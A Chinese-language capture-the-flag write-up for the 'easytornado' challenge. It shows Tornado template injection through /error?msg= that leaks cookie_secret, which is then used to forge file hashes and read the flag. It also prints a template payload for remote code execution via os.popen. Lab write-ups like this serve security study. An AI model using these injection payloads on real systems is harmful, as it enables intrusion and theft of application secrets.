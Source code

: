 ### easytornado——adworld

![image-20240920154109877](C:\Users\10649\AppData\Roaming\Typora\typora-user-images\image-20240920154109877.png)

首先提示了是一个Tornado， 是一个 Python Web 框架和异步网络库，适用于处理大量并发连接的应用程序。它最初由 FriendFeed 开发，后来被 Facebook 收购。Tornado 的主要特点包括：

- **高性能**：Tornado 使用非阻塞网络 I/O，可以处理成千上万的并发连接。
- **异步编程**：支持异步编程模型，使得编写高效的网络应用程序更加容易。
- **WebSocket 支持**：内置对 WebSocket 的支持，适合实时应用。
- **灵活性**：可以与其他 Python 库和框架集成，提供高度的灵活性。

先不管那么多，目录爆破出来

/error?msg=

试一下好像所有都会显示在上面，试一下xss呢？出现个orz，没啥用啊

再试试ssti，应该是过滤了还是orz



那就继续看页面吧，有三个，flag，hint，和welcome

首先flag.txt
提示了flag in /fllllllllllllag

接着抓包发现有一个fliehash

```
3da98929f77ded08192eb708a56d0bcc 

531e1ef9ed740b7c4809cd5989614a75
--hash-identify识别出来是md5，但是md5破译不出来
尝试了welcome.txt，flag.txt都不对
```

看到hint才明白是

```
md5(cookie_secret+md5(filename))
```

什么是cookie_secret?

先把三个包全抓了

```
GET /file?filename=/flag.txt&filehash=bf608d2cbce88ab3c0f0f5e4165a6233 HTTP/1.1

Host: 61.147.171.105:60057

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Referer: http://61.147.171.105:60057/

Accept-Encoding: gzip, deflate, br

Accept-Language: en-US,en;q=0.9

Cookie: Hm_lvt_1cd9bcbaae133f03a6eb19da6579aaba=1722697678,1722697954,1722698140; last_login_info=YToxOntzOjI6ImlwIjtzOjEyOiIxMTIuNDguMjAuODciO30%3D; PHPSESSID=j6h41tko6olqgi6gcc7iri9tm5

Connection: close


```

看到这里的差别数据就是If-None-Match: "288c273b03dd3dcfb65fc8fe8146175d29ef3ee8"

我尝试一下呢？

```
#写一个md5加密
import hashlib

def md5_encrypt(string):
    m = hashlib.md5()
    m.update(string.encode('utf-8'))
    return m.hexdigest()

# 测试
string = '288c273b03dd3dcfb65fc8fe8146175d29ef3ee8'+md5_encrypt('welcome.txt')
encrypted_string = md5_encrypt(string)
print(encrypted_string)

这也不对啊
0aa2f6d187d70ad1de7cd84a4a5f4720
```

`If-None-Match` 是一个HTTP请求头，用于使请求具有条件性。以此来处理并发问题，这个并不是什么cookie_secret



问题应该是在/error?msg=的ssti测试的时候，仅考虑了flask框架的ssti而不是tornado模板注入



通过网上搜索得出几种构造模式

1 **datetime**
Python datetime 模块
比如{{ datetime.date(2022,3,7)}}返回2022-03-07

2 **handler**
当前的 RequestHandler 对象，也是tornado中HTTP请求处理的基类.那么我们可以用这个对象中的什么东西呢，这就得看他的[源代码](https://tornado-zh.readthedocs.io/zh/latest/_modules/tornado/web.html#RequestHandler)了。内容有点庞大。
可以在里面看到之前用到过的handler.settings，这就是我们要找的cookie的位置

或者，escape转换成其对应的 HTML 实体

```
{{ escape(handler.settings[“cookie”]) }}
```

可以得到

```
'cookie_secret':0fd3852b-7e3a-4e00-81c1-e504a1101052
```



再延申可以继续构造基类进行rce，比如

```
{{handler.__init__.__globals__['__builtins__']['eval']("__import__('os').popen('ls').read()")}}
```

不过没有效果，测试发现是对（）过滤了



使用cookie＋filename进行md5加密得到

```
bf608d2cbce88ab3c0f0f5e4165a6233
```

完全一致，

那直接访问/fllllllllg，构造出加密，得到shell



flag{3f39aea39db345769397ae895edb9c70}



更多延申在[tornado模板注入-CSDN博客](https://blog.csdn.net/miuzzx/article/details/123329244)

